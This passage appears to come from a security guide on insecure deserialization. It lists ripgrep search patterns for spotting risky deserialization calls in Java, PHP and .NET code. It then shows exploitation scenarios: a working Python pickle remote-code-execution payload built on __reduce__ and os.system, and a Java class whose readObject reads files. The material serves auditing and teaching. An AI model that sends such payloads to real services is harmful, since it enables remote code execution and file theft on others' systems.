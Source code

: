 ### Java
```bash
# Java serialization
rg -n "ObjectInputStream|readObject\(\)|deserialize" --type java

# XML deserialization
rg -n "XMLDecoder|XStream|readObject" --type java

# Jackson type confusion
rg -n "enableDefaultTyping|@JsonTypeInfo" --type java
```

### PHP
```bash
# PHP unserialization
rg -n "unserialize\(|__wakeup|__destruct" --type php

# Phar deserialization
rg -n "phar://|file_get_contents.*phar" --type php
```

### .NET
```bash
# BinaryFormatter
rg -n "BinaryFormatter|Deserialize" --type cs

# DataContractSerializer
rg -n "DataContractSerializer|NetDataContractSerializer" --type cs
```

## Exploitation Scenarios

### 1. Remote Code Execution
```python
# Python pickle RCE payload
import pickle
import base64

class RCE:
    def __reduce__(self):
        import os
        return (os.system, ('id',))

payload = base64.b64encode(pickle.dumps(RCE()))
```

### 2. File System Access
```java
// Java deserialization to file read
public class FileReader implements Serializable {
    private String filename;
    
    private void readObject(ObjectInputStream in) throws Exception {
        in.defaultReadObject();
        Files.readAllBytes(Paths.get(filename));
    }
}
```

